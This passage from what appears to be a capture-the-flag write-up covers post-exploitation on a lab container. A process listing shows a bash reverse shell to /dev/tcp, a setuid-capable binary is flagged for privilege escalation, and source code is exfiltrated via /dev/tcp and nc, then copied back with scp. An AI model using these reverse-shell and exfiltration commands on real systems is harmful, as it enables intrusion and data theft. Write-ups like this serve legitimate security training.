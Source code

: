 ```
www-data  14777  0.0  0.0  18376  3112 ?        S    12:22   0:00 bash -c bash -i >& /dev/tcp/192.168.254.2/4433 0>&1
www-data  14778  0.0  0.0  18508  3472 ?        S    12:22   0:00 bash -i
www-data  14782  0.0  0.2  36668  8608 ?        R    12:25   0:00 python3 -c import pty;pty.spawn("bash")
www-data  14783  0.0  0.0  18508  3440 pts/0    Ss   12:25   0:00 bash
www-data  14914  0.0  0.0  34404  2948 pts/0    R+   13:18   0:00 ps auxww

```

It could be running on a cron periodically, but then it would still fail when the webapp calls it. The binary has the `setuid` capability:

```

www-data@pki:~$ getcap /usr/bin/ersatool 
/usr/bin/ersatool = cap_setuid+eip

```

So if there’s some way to exploit this binary and get it to run code, I can get root in this container.

### Exfil

To look at the binary, I need to get a copy back to my VM. One option would be to base64 encode it and then just copy and paste it. Alternatively, I can send it to web, and then `scp` back to my host. I’ll start `nc` listening on web, pipe the file into `/dev/tcp` on pki:

```

www-data@pki:~$ cat /usr/src/ersatool.c > /dev/tcp/192.168.254.2/4444

```

It arrives at web:

```

www-data@web:~$ /tmp/nc -lnvp 4444 > /tmp/0xdf
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.254.3.
Ncat: Connection from 192.168.254.3:45386.

```

Now I’ll pull that to my host:

```

oxdf@parrot$ scp -i ~/keys/static-www-data-172.20.0.10 www-data@172.20.0.10:/tmp/0xdf ersatool.c
0xdf                                                 100% 5729   272.0KB/s   00:00

```
